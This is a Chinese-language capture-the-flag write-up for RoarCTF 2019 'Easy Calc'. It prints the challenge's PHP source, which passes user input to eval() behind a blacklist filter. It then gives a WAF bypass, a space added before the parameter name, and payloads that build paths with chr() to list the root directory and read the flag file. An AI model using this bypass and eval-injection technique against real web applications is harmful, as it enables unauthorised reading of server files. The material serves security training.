 # [RoarCTF 2019]Easy Calc 1

- 网页中没有有效信息，查看源码，发现calc.php，同时注意上面的注释 `I've set up WAF to ensure security.`

> <img src="../../IMG2/Screenshot 2024-05-20 214119.png">

- 进入calc.php，开始代码审计

```php
<?php
error_reporting(0);
if(!isset($_GET['num'])){
    show_source(__FILE__);
}else{
        $str = $_GET['num'];
        $blacklist = [' ', '\t', '\r', '\n','\'', '"', '`', '\[', '\]','\$','\\','\^'];
        foreach ($blacklist as $blackitem) {
                if (preg_match('/' . $blackitem . '/m', $str)) {
                        die("what are you want to do?");
                }
        }
        eval('echo '.$str.';');
}
?> 
```

- 代码内容是过滤了一些特殊字符，然后传入eval()执行，那么我们可以直接使用一些php函数，使用 `var_dump(scandir())` 输出文件目录，这里注意 `/` 被过滤了，所以需要ascii码使用 `chr()` 来转换。这里还需要注意一点，上文提到过 `I've set up WAF to ensure security.` ，WAF全程Web Application Firewall，也就是网页应用防火墙，可以防止SQL注入，XSS注入和Cookie被更改等，这道题的WAF的主要功能是阻止用户发送GET请求，也就是不能直接在url栏传参，如下

> <img src="../../IMG2/Screenshot 2024-05-21 182827.png">

- 不过绕过也非常简单，只需要在num前加个空格就行了

> <img src="../../IMG2/Screenshot 2024-05-21 182950.png">

- 下面获取根目录

`? num=var_dump(scandir(chr(47)))`

> <img src="../../IMG2/Screenshot 2024-05-21 183138.png">

- 发现 `f1agg` ，构建payload

`? num=var_dump(file_get_contents(chr(47).chr(102).chr(49).chr(97).chr(103).chr(103)))`

- 传参，得到flag

> <img src="../../IMG2/Screenshot 2024-05-21 183605.png">